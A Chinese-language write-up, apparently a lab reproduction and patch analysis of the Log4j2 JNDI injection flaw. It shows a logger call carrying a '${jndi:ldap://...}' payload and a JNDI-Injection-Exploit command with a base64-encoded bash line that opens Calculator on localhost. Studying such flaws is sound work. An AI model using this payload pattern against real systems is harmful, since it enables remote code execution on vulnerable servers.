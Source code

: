 ```java
    public static void main(String[] args) {

        logger.error("${jndi:ldap://127.0.0.1:1389/ladr0g}");
    }
}
```


## 漏洞复现
先启动恶意服务器, 来给`ldap`/`rmi`调用返回恶意代码, 这里我利用`JNDI`注入工具直接生成了.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,b3BlbiAtYSBDYWxjdWxhdG9y}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

接着使用`logger.info`方法触发漏洞, 弹出计算器.

![](./images/2.png)

## 漏洞分析
### 漏洞点确定
先查看一下[官方修订信息](https://issues.apache.org/jira/projects/LOG4J2/issues/LOG4J2-3201?filter=allissues), 可以知道漏洞的利用方式是通过`JNDI`中`LDAP`注入的方式实现`RCE`的, 再查看补丁的更改记录后, 可以看到其对`lookup`函数的判断进行了修改.
